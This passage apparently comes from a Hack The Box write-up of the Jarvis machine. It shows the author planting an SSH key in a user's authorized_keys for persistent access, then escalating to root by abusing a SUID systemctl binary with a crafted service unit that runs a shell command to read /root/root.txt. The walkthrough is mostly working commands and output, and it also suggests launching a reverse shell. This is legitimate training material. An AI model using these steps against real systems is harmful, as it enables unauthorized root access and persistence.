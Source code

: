 <p>Notice <code>/bin/systemctl</code> ? Looks like we have the ability to run it as pepper and since it has SUID set we may be able to exploit it to pivot into root. Quickly searching around I found a reference I will definitely keep handy moving forward - <a href="https://gtfobins.github.io/gtfobins/systemctl/#suid">gtfobins</a>. Unfortunately the shell I had on the host was not playing nice with this POC so had to take a tangent and get my shell upgraded first. Since we didn't know pepper's password we couldn't just ssh in as the user with the password, however we could do something that would still allow us to properly log in - ssh keys!</p>

{% highlight shell %}
root@kali:~/.ssh# ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): 
...
Your identification has been saved in /root/.ssh/id_rsa.
Your public key has been saved in /root/.ssh/id_rsa.pub.
root@kali:~/.ssh# cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAA...IomvNOR1FcXBuOItl root@kali
{% endhighlight %}

<p>Then all we needed to do was insert the entry on the host.</p>

{% highlight shell %}
$ pwd
/home/pepper/.ssh
$ echo "ssh-rsa AAAAB3NzaC1yc2EAA...IomvNOR1FcXBuOItl root@kali" > authorized_keys
$ cat authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAA...IomvNOR1FcXBuOItl root@kali
{% endhighlight %}

<p>And just like that we are able to get into the host through normal ssh:</p>

{% highlight shell %}
root@kali:~/.ssh# ssh pepper@10.10.10.143
The authenticity of host '10.10.10.143 (10.10.10.143)' can't be established.
ECDSA key fingerprint is SHA256:oPoKu2vmqVfC1e3TJJ5ZB8yL/2/W2YIrglCm8FTTuSs.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.143' (ECDSA) to the list of known hosts.
Linux jarvis 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64

pepper@jarvis:~$ id
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
{% endhighlight %}

<p>Now that we have a proper shell we can turn our attention back to systemctl. As gtfobins states if systemctl <i>"runs with the SUID bit set and may be exploited to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor"</i>. They provide a POC that while it didn't work earlier, let's give it a try now that we have a proper shell. Similar to my <a href="{{ site.baseurl }}{% link _posts/hackthebox/2019-10-12-htb-machine-writeup.md %}">previous post</a> I wanted to keep it simple and go straight for the prize. This technique could be leveraged to call another reverse shell script that you previously uploaded to pop a root shell as well.</p>

{% highlight shell %}
pepper@jarvis:/tmp$ TF=$(mktemp).service
pepper@jarvis:/tmp$ echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output1"
> [Install]
> WantedBy=multi-user.target' > $TF
> 
pepper@jarvis:/tmp$ systemctl link $TF
Created symlink /etc/systemd/system/tmp.foyNai9pQt.service → /tmp/tmp.foyNai9pQt.service.

pepper@jarvis:/tmp$ systemctl enable --now $TF
Created symlink /etc/systemd/system/multi-user.target.wants/tmp.foyNai9pQt.service → /tmp/tmp.foyNai9pQt.service.

pepper@jarvis:/tmp$ cat output1
d41d8***********************